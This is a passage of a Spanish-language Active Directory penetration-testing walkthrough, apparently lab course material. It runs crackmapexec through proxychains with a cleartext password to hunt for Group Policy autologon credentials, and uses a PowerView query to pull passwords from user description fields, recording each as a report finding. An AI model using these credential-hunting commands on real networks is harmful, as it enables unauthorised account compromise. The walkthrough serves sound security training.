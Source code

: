 Encontramos una contraseña válida para dos usuarios más, pero ninguno tiene acceso interesante. Aun así, vale la pena anotar un hallazgo para `Weak Active Directory Passwords` permitidas y seguir adelante.

---

## Misc Techniques

Probemos algunas cosas más para cubrir todas nuestras bases. Podemos buscar en el share SYSVOL archivos `Registry.xml` que puedan contener contraseñas para usuarios configurados con autologon a través de Group Policy.



```r
proxychains crackmapexec smb 172.16.8.3 -u ssmalls -p Str0ngpass86! -M gpp_autologin

ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:445-<><>-OK
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:445-<><>-OK
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:135-<><>-OK
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:445-<><>-OK
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:445-<><>-OK
SMB         172.16.8.3      445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:445-<><>-OK
SMB         172.16.8.3      445    DC01             [+] INLANEFREIGHT.LOCAL\ssmalls:Str0ngpass86! 
GPP_AUTO... 172.16.8.3      445    DC01             [+] Found SYSVOL share
GPP_AUTO... 172.16.8.3      445    DC01             [*] Searching for Registry.xml
```

Esto no muestra nada útil. Sigamos adelante, podemos buscar contraseñas en los campos `Description` de los usuarios en AD, lo cual no es muy común, pero aun así lo vemos de vez en cuando (¡Incluso he visto contraseñas de cuentas Domain y Enterprise Admin aquí!).



```r
PS C:\DotNetNuke\Portals\0> Get-DomainUser * |select samaccountname,description | ?{$_.Description -ne $null}

samaccountname description
-------------- -----------
Administrator  Built-in account for administering the computer/domain
frontdesk      ILFreightLobby!
Guest          Built-in account for guest access to the computer/d...
krbtgt         Key Distribution Center Service Account
```

Encontramos una para la cuenta `frontdesk`, pero esta tampoco es útil. Vale la pena notar que hay muchas maneras de obtener una contraseña de cuenta de usuario en este dominio, y hay un host con privilegios RDP otorgados a todos los usuarios del dominio. Aunque estas cuentas no tienen ningún derecho especial, sería una prioridad que el cliente solucione estos problemas porque un atacante a menudo solo necesita una contraseña para tener éxito en AD. Aquí podemos anotar un hallazgo para `Passwords in AD User Description Field` y continuar.

---